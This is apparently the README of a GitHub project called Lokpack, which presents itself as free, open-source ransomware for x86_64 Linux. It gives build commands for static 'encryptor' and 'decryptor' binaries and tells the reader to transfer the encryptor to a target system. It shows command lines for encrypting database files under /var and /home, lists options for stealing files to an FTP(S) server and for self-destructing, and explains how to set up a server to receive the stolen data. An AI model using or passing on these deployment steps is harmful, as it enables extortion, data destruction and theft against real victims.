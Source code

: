 # Lokpack | Ransomware tooling for x84_64 Linux
Lokpack is a free (as in freedom) and open source ransomware 
tool targeting x86_64 Linux systems, written in C.

![showcase](https://github.com/ngn13/lokpack/assets/78868991/d1d8e490-b7d3-4f21-aeca-368eb0a0a0d8)

## Features
- Build static encryption and decrypiton tools
- Steal files using a FTP(S) server
- Specify custom target paths
- Uncrackable RSA asymmetric encryption
- Multi-threaded (a.k.a. fast)

## Build
Required libraries/tools:
- A (x86_64) Linux system
- gcc and other build tools
- curl (and headers)
- openssl (and headers)

> [!WARNING]
> Do NOT build from the latest commit, check out the latest tag
> or download the [latest release](https://github.com/ngn13/ezcat/tags).

To generate static builds, you will need static libraries of curl and openssl,
**if your distro does not package these**, you can build them yourself or use the automated
build scripts:
```bash
./scripts/openssl.sh
./scripts/curl.sh
```
**Note that automated script for curl does not support SSL connections**.

After building the static libraries, use the build script to create build with a random key:
```bash
./scripts/build.sh -static
```
This should create the `encryptor` and the `decryptor` binares at `dist/`.

## Options
After transfering `encryptor` to the target system, you can specify custom options:
```bash
$ ./encryptor --help
[*] Listing available options:
    --threads  => Thread count for the thread pool
    --paths    => Paths to look for files
    --exts     => Valid extensions for files
    --ftp-url  => Address for the FTP(S) server
    --ftp-user => FTP(S) username
    --ftp-pwd  => FTP(S) password
    --no-ftp   => Disable stealing files with FTP(S)
    --destruct => Self destruct the program
    --debug    => Enable debug output
```

For example to encrypt `.sql` and `.db` files located at `/var` and `/home` without FTP using 100 threads:
```bash
./encryptor --threads=100 --paths=/var,/home --exts=sql,db --no-ftp
```
If you want to encrypt all files with all extensions, set `--exts` to `ALL`.

Decryptor does not have any options, but can specify the target directory, by default it searches the entire file system (`/`):
```bash
./decryptor /var
```

### Setting up FTP(S)
For an actual FTP(S) setup you should install a FTP daemon such as `vsftpd` or `bftpd`. But for testing you can 
use `pyftpdlib`:
```bash
# username and password are 'anonymous' 
# which is default for the encryptor
python3 -m pyftpdlib -w
# -w for write access
```

## Resources
- [C-Thread-Pool](https://github.com/Pithikos/C-Thread-Pool)
- [CURL ftpupload](https://curl.se/libcurl/c/ftpupload.html)
- [CURL options](https://curl.se/libcurl/c/easy_setopt_options.html)
- [OpenSSL RSA Demo](https://github.com/openssl/openssl/blob/master/demos/encrypt/rsa_encrypt.c)
